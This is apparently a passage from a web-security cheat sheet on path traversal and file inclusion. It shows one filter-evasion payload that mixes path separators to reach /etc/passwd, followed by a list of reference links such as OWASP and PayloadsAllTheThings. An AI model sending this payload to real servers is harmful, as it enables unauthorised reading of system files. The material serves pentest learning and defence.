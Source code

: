 ## Mixed Path Separators
   - Combine Unix and Windows path separators to evade filters.
     ```
     ..\/..\/..\/..\/etc\/passwd
     ```

# Resources

|**Website**|**URL**|
|-|-|
|OWASP File Inclusion|https://owasp.org/www-community/attacks/Path_Traversal|
|PortSwigger Web Security Academy|https://portswigger.net/web-security/file-path-traversal|
|PayloadAllTheThings (LFI/RFI)|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion|
|HackTricks File Inclusion Guide|https://book.hacktricks.xyz/pentesting-web/file-inclusion|
|GTFOBins (LFI)|https://gtfobins.github.io/|
|Exploit Database File Inclusion Exploits|https://www.exploit-db.com/|
|PHP Wrappers Documentation|https://www.php.net/manual/en/wrappers.php|
|FuzzDB (LFI)|https://github.com/fuzzdb-project/fuzzdb|